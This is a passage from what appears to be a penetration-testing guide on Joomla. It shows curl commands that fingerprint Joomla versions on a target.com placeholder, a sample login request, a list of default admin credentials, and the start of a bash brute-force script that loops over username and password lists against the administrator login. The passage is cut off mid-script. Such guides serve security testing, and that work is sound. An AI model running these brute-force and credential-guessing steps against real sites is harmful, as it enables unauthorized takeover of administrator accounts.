 ### Joomla 4.x Series Analysis  
```bash
# Joomla 4.x specific indicators
curl -s http://target.com/templates/cassiopeia/ # Default 4.x template
curl -s http://target.com/api/                  # New API endpoints

# Modern framework indicators
curl -s http://target.com/ | grep -i "bootstrap"
curl -s http://target.com/ | grep -i "vue"
```

### Legacy Version Detection
```bash
# Joomla 1.5/2.5 legacy indicators (rarely seen)
curl -s http://target.com/templates/beez/       # Legacy template
curl -s http://target.com/libraries/joomla/     # Legacy library structure
```

---

## Authentication & Brute Force Attacks

### User Enumeration Limitations

#### Login Error Analysis
```bash
# Joomla returns generic error messages
curl -X POST http://target.com/administrator/index.php \
  -d "username=admin&passwd=wrongpass&task=login"

# Generic response:
"Warning: Username and password do not match or you do not have an account yet."

# No username enumeration via error messages (unlike WordPress)
```

### Brute Force Attack Strategies

#### Default Credential Testing
```bash
# Common default credentials to test
admin:admin
admin:password
admin:123456
administrator:admin
root:root
```

#### Custom Brute Force Script
```bash
#!/bin/bash
# joomla-brute.py equivalent in bash

target="$1"
userlist="$2"
passlist="$3"

while IFS= read -r username; do
    while IFS= read -r password; do
        response=$(curl -s -X POST "$target/administrator/index.php" \
            -d "username=$username&passwd=$password&task=login" \
            -c cookies.txt)
        
        if [[ $response != *"Username and password do not match"* ]]; then
```